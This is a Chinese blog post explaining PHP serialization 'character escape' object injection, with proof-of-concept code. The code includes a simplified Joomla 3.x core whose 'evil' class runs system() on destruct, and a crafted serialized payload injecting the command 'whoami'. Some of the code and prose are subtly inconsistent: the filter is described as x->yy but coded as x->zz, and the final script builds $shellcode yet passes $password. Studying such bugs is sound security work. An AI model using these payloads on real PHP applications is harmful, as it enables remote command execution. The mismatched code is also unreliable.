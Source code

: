 ```yaml
---
layout: post
title: 'PHP字符逃逸'
subtitle: 'PHP字符逃逸导致的对象注入'
date: 2021-07-10
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: jekyll 前端开发 设计
---
```

### 漏洞产生原因

序列化的字符串在经过过滤函数不正确的处理而导致对象注入，目前看到都是因为过滤函数放在了serialize函数之后，要是放在序列化之前应该就不会产生这个问题

	?php
	function filter($string){
	  $a = str_replace('x','zz',$string);
	   return $a;
	}
	
	$username = "tr1ple";
	$password = "aaaaax";
	$user = array($username, $password);
	
	echo(serialize($user));
	echo "\n";
	
	$r = filter(serialize($user));
	
	echo($r);
	echo "\n";
	
	var_dump(unserialize($r));
	$a='a:2:{i:0;s:6:"tr1ple";i:1;s:5:"aaaaa";}i:1;s:5:"aaaaa";';
	var_dump(unserialize($a));

php特性：

	1.在反序列化时，底层代码是以";"作为字段的分隔，以"}"作为结尾（字符串除外），并且是根据长度判断内容的
	
	2.对类中不存在的属性也会进行反序列化

以上代码就明显存在一个问题，即从序列化后的字符串中明显可以看到经过filter函数以后s:6对应的字符串明显变长了

并且如果对于a:2:{i:0;s:6:"tr1ple";i:1;s:5:"aaaaa";}i:1;s:5:"aaaaa"; 这种字符串而言，也能够正常反序列化，说明php在反序列化的时候只要求一个反序列化字符串块合法即可，当然得是第一个字符串块

以以上代码为例，如果能够利用filter函数这种由一个字符变为两个字符的特性来注入想要反序列化后得到的属性，使其可以逃逸出更多可用的字符串，那么我们就能反序列化得到我们想要的属性

比如此时我们想要让反序列化后第二个字符串为123456，此时我们的payload如果和之前的username长度为a，则filter处理以后可能username就会变成a，此时我们的payload变成了新的注入的属性，此时反序列化后就会得到我们想要的结果，比如a:2:{i:0;s:6:"tr1ple";i:1;s:6:"123456";}是我们想要达到的效果，此时我们想要注入的payload明显为：

";i:1;s:6:"123456";}

可以得到其长度为20

此时我们已经知道过滤的规则为x->yy，即注入一个x可以逃逸出一个字符的空位，那么我们只需要注入20个x即可变成40个y，即可逃逸出20个空位，从而将我们的payload变为反序列化后得到的属性值

	$username = 'tr1plexxxxxxxxxxxxxxxxxxxx";i:1;s:6:"123456";}'; //其中红色就是我们想要注入的属性值 
	$password="aaaaa";
	$user = array($username, $password);
	echo(serialize($user));
	echo "\n";
	
	$r = filter(serialize($user));
	
	echo($r);
	echo "\n";
	var_dump(unserialize($r));

可以看到此时注入属性成功，反序列化后得到的属性即为123456

### 实例分析

joomla3.0.0-3.4.6 对象注入导致的反序列化,以下为参考别人的简易化核心漏洞代码

	<?php
	class evil{
	    public $cmd;
	
	    public function __construct($cmd){
	        $this->cmd = $cmd;
	    }
	
	    public function __destruct(){
	        system($this->cmd);
	    }
	}
	
	class User
	{
	    public $username;
	    public $password;
	
	    public function __construct($username, $password){
	        $this->username = $username;
	        $this->password = $password;
	    }
	
	}
	
	function write($data){
	    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
	    file_put_contents("dbs.txt", $data);
	}
	
	function read(){
	    $data = file_get_contents("dbs.txt");
	    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
	    return $r;
	}
	
	if(file_exists("dbs.txt")){
	    unlink("dbs.txt");  
	}
	
	$username = "tr1ple";
	$password = "A";
	$payload = '";s:8:"password";O:4:"evil":1:{s:3:"cmd";s:6:"whoami";}'; write(serialize(new User($username, $password))); var_dump(unserialize(read()));

在这里如果想要通过注入对象来实现反序列化则必须在外部对象内进行注入存在的属性，不能在其外部，否则php将不会进行我们注入恶意对象的反序列化

例如此时因为反序列化读取的时候将会将六位字符\0\0\0替换成三位字符chr(0)*chr(0),因此字符串前面的s肯定是固定的，那么s对应的字符串变少以后将会吞掉其他属性的字符，那么如果我们精心算好吞掉的字符长度，并且能够控制被吞掉属性的内容，那么就能够注入对象，从而反序列化其他类

比如如上所示，此时我们要注入的对象为evil，此时username和password的值我们可控，那么我们可以在username中注入\0，来吞掉password的值，比如

	<?php
	$a='\0\0\0';
	echo strlen($a);
	$b=str_replace('\0\0\0', chr(0).'*'.chr(0), $a);
	echo strlen($b);


所以此时首先确定我们要吞掉的字符的长度

O:4:"User":2:{s:8:"username";s:6:"tr1ple";s:8:"password";s:4:"1234";}

正常情况下我们要吞掉 ";s:8:"password";s:4:" 为22位

但是因为注入的对象payload也在password字段，并且长度肯定是>=10的，因此s肯定是两位数，因此这里为22+1=23位字符

因为是6->3，因此每次添加一组\0\0\0能多吞掉3个字符，因此需要肯定都是3的倍数

因此我们假如这里构造username为\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0 

则经过read函数处理后长度将变为24

即此时能够多吞掉24个字符，为了不让其吞掉payload，我们可以填充1位字符A，即令password的值为A+payload即可

	<?php
	class evil{
	    public $cmd;
	
	    public function __construct($cmd){
	        $this->cmd = $cmd;
	    }
	
	    public function __destruct(){
	        system($this->cmd);
	    }
	}
	
	class User
	{
	    public $username;
	    public $password;
	
	    public function __construct($username, $password){
	        $this->username = $username;
	        $this->password = $password;
	    }
	
	}
	
	function write($data){
	    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
	    file_put_contents("dbs.txt", $data);
	}
	
	function read(){
	    $data = file_get_contents("dbs.txt");
	    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
	    return $r;
	}
	
	if(file_exists("dbs.txt")){
	    unlink("dbs.txt");  
	}
	
	$username = "\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0";
	$password = "A";
	$payload = '";s:8:"password";O:4:"evil":1:{s:3:"cmd";s:6:"whoami";}'; $shellcode=$password.$payload; write(serialize(new User($username, $password))); var_dump(unserialize(read()));

执行结果如上图所示，将成功反序列化password属性所对应的值，其值即为我们注入的对象，整个过程也容易理解，就是吞掉后面的属性来注入属性，那么达到攻击有以下要求：

> 1.相邻两个属性的值是我们可以控制的

> 2.前一个属性的s长度可以发生变化，变长变短都可以，变短的话可以吞掉后面相邻属性的值，然后在相邻属性中注入新的对象，如果边长则可以直接在该属性中注入对象来达到反序列化

比如XNUCA2018 hardphp就考察了一个这个相关的trick

这里就出现了用前面的data在反序列化时向后吞一位字符，从而可以导致吞掉后面的普通用户的username字段，而在username字段可以放上我们想要伪造的username，从而达到伪造session的目的

参考

！[https://www.cnblogs.com/magic-zero/p/9525842.html](https://www.cnblogs.com/magic-zero/p/9525842.html)

![https://github.com/wonderkun/CTF_web/tree/master/web400-12](https://github.com/wonderkun/CTF_web/tree/master/web400-12)